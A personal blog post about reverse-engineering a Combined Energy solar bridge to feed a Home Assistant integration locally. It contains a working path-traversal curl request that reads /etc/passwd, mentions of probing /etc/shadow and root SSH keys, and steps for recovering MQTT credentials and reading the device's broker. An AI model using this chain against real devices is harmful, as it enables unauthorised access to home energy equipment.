

I created [Combined Energy integration for Home Assistant](https://github.com/evilmarty/combined_energy) back in 2024 after I got solar panels and replaced my gas hot water system with an electric one. The code was originally from a [Pull Request](https://github.com/home-assistant/core/pull/81724) by [@timsavage](https://github.com/timsavage), who created it in 2022, that never got merged. I gave it a new home and has received numerous changes and updates since. It relied on Combined Energy's cloud-based API to work, and for the most part worked well, but it irked me that it did not source the data locally. The bridge device sat next to my Home Assistant server yet did not communicate with each other and it was my ambition to ratify. Then one day, after some elbow grease and tenacity, I got my wish and made my integration source its data locally. This is that tale.

On one inauspicious day, I decided to poke around my Combined Energy bridge device. Whilst I have rarely dabbled in any forms of "hacking", I know some things. I fired up good ol `nmap` as my starting point to see what can be gleaned.

```shell
$ nmap -sV X.X.X.X
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-17 16:54 +1000 Nmap scan report for X.X.X.X Host is up (0.0085s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
80/tcp open http JBoss Enterprise Application Platform
8080/tcp open nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 83.94 seconds
```

It's running SSH, a web server, and apparently Nagios (spoiler; it was not Nagios). The next step was to check against any basic web vulnerabilities.

```shell
$ nmap -p 80 --script http-enum,http-methods,http-title,http-headers X.X.X.X
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-17 17:40 +1000 Nmap scan report for X.X.X.X
Host is up (0.015s latency).

PORT STATE SERVICE
80/tcp open http
| http-headers:
| Date: Fri, 17 Jul 2026 07:40:25 GMT
| Content-type: text/html
|
|_ (Request type: HEAD)
|_http-title: Combined Energy - onSite
| http-methods:
|_ Supported Methods: GET HEAD
| http-enum:
| /../../../../../../../../../../etc/passwd: Simple path traversal in URI (Linux)
|_ /manifest.json: Manifest JSON File

Nmap done: 1 IP address (1 host up) scanned in 103.94 seconds
```

And just like that I hit pay dirt. What I wanted to now know was how much further this could take me. I verified this exploit.

```shell
$ curl "http://X.X.X.X/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Yep, it works. I began poking the obvious places, such as `/etc/shadow` and `/root/.ssh/id_rsa`, but I was flying blind. That is, until I hit `/root/.bash_history`. This gave me incredible insight into commands and folders and scripts. I inspected every script and file I could get my hand on to learn more about the file system and how everything is structured. During this discovery I came across `/var/opt/cet/mqtt/configure-mqtt.sh` which contained some very interesting information.

```shell
CUST=$CET_HOME/config/custom
accKey=`cat $CET_HOME/config/access.key | head -n1`
sysKey=`cat $CET_HOME/config/system.key | head -n1`


if [ ! -f $CET_HOME/config/mqtt.pwd ] ; then
        touch $CET_HOME/config/mqtt.pwd
fi

mosquitto_passwd -b $CET_HOME/config/mqtt.pwd localws $accKey
mosquitto_passwd -b $CET_HOME/config/mqtt.pwd sys $sysKey
```

That is quite interesting, and better yet, I know where CET\_HOME is. This gave the MQTT broker user accounts and where to find the passwords!

```shell
$ mosquitto_sub -v --ws -u sys -P XXXXXXXXXXXX -p 8080 -h X.X.X.X -k 60 -t "cet-ecn/XXXXXXX/ems/hb"
cet-ecn/XXXXXXX/ems/hb {"m":1,"s":2,"r":"E","i":1234,"v":3,"all":{"ug":1234,"ul":1234,"clm":1234,"ga":1234,"gaa":1234,"gr":123,"gra":123,"va":123456,"hz":123456,"gt":0,"el":123456,"il":123456}}
```

Boom! I can read data. To the astute reader, they would notice that I am using port 8080. The long story short was that `configure-mqtt.sh` script included the path to `mosquitto.conf` and that informed me that the port 8080 was configured as a web socket listener and it was not bound. The default port 1883 was configured to be bound to localhost only.

With information at hand I began rewriting my integration to get it sourcing information from the bridge device directly. By that afternoon I had something working but noticed that the data reported by Home Assistant was not quite right.



I collected a large sample of data and analysed that it had random spikes and invalid/negative values. I had to normalise the values by storing it locally and process it over a larger period instead of when they were received, which was every 5 seconds. I then cross referenced that data with that from the API and they were almost exact.&#x20;

I managed to achieve my desire to have a fully local integration with the Combined Energy bridge. Hopefully, or not hopefully, they do not fix the exploit and undo this work. I did continue to investigate ways to compromise the device but have yet to find anything. I do have an encrypted root password, which I imagine is randomly generated. It would take me over 250 days to brute force it on my Mac Mini M4, so don't think it is a worthy investment. At this stage it is just curiosity than any incentive to continue.

For now, I am enjoying the [latest version of my Combined Energy integration](https://github.com/evilmarty/combined_energy/releases/tag/v0.7.0).
